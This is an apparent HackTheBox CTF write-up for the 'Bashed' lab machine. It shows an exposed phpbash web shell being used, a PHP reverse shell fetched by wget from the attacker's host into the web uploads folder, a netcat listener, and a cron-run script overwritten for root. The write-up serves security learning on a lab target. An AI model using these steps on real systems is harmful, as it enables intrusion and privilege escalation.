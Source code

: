 title: 'HTB: Bashed'
date: '2020-11-22 15:34:00 -0400'
categories:
  - HackTheBox
  - Write-ups
tags:
  - HTB
published: true
---

IP: 10.10.10.68

As always, we'll begin with an NMAP scan.

![a50326024ac45cd59ece5b33f1a25dbf.png](./../../assets/img/a50326024ac45cd59ece5b33f1a25dbf.png)

Looks like we don't have much of a choice. Let's take a look at the web server.

![6d7ae8ad84ab4fc3c66850364ebcd3c3.png](./../../assets/img/6d7ae8ad84ab4fc3c66850364ebcd3c3.png) 

We see mention of phpbash, but no clear indication of where it is located. Checking the system with nikto gives us some useful info.

![5aca2940dd04b5f6f384eaf257800443.png](./../../assets/img/5aca2940dd04b5f6f384eaf257800443.png)
![15a956b0c88a755101b8a50365cb8228.png](./../../assets/img/15a956b0c88a755101b8a50365cb8228.png) 

This is definitely our way into the box. Simply call  `phpbash.php`  and we're good to go.

![e251038821a976d099c9e2d834765652.png](./../../assets/img/e251038821a976d099c9e2d834765652.png)

Since we're here, we can go grab the user flag to get it out of the way.

![f8191ac38ab64b04958b4d03367838c9.png](./../../assets/img/f8191ac38ab64b04958b4d03367838c9.png)

From here we need to figure out our escalation.  `Sudo -l`  shows us that we have access to another user.

![a9f8f48a2973fa58a4a7d0e05153908b.png](./../../assets/img/a9f8f48a2973fa58a4a7d0e05153908b.png)

We have the ability to access the  `scriptmanager`  account, but we need a better shell first. Grab a copy of  `php-reverse-shell.php`  from  `/usr/share/webshells/php`  and edit the IP to match your system. Host the file using  `python -m Simple HTTPServer 80`  and use  `wget http://10.10.14.5/php-reverse-shell.php`  on the target system to download the PHP file into  `/var/www/html/uploads.`

![edb029b4762c21b7b0f153413e86df23.png](./../../assets/img/edb029b4762c21b7b0f153413e86df23.png)
![8fc9a34ee76c9d1d9023024cc588d892.png](./../../assets/img/8fc9a34ee76c9d1d9023024cc588d892.png)

We're using a PHP reverse shell since we know we have PHP on the system. You can use something else to host the file, but I find that Python is the quickest way to get things online. We're using  `/var/www/html/uploads`  because it's a directory that we can both write to, and call from our browser. Once you have the PHP file on the target system, start a NC listener  with  `nc -lvp 4444`  and call  `http://10.10.10.68/uploads/php-reverse-shell.php`  in your browser.

![02c99b300ecdbcc06224cbb378677cfe.png](./../../assets/img/02c99b300ecdbcc06224cbb378677cfe.png)

We were able to break out into a clean TTY with Python and then sudo to scriptmanager. Now we just need to dig around and see what we can do as our new user. After some poking around we can see that  `/scripts`  is owned by scriptmanager.

![d18e44e63210279a976fe3da769bef5f.png](./../../assets/img/d18e44e63210279a976fe3da769bef5f.png)

We can see that there is a  `test.py`  and a  `test.txt`  in the folder. The text file is owned by root, and it's being updated every minute. This indicates that there is a root level cron that is accessing the Python script.

![13c2eac14441c23265ef46474158c91f.png](./../../assets/img/13c2eac14441c23265ef46474158c91f.png)

We'll overwrite the Python script and use it to create a root level reverse shell back to our system.

![d1176551033fc1d5239de45e89cc763a.png](./../../assets/img/d1176551033fc1d5239de45e89cc763a.png)

Start up a new NC listener on port 4444 and just wait a minute.

![9550a2a607c2f024fefc7ce7b267142b.png](./../../assets/img/9550a2a607c2f024fefc7ce7b267142b.png)
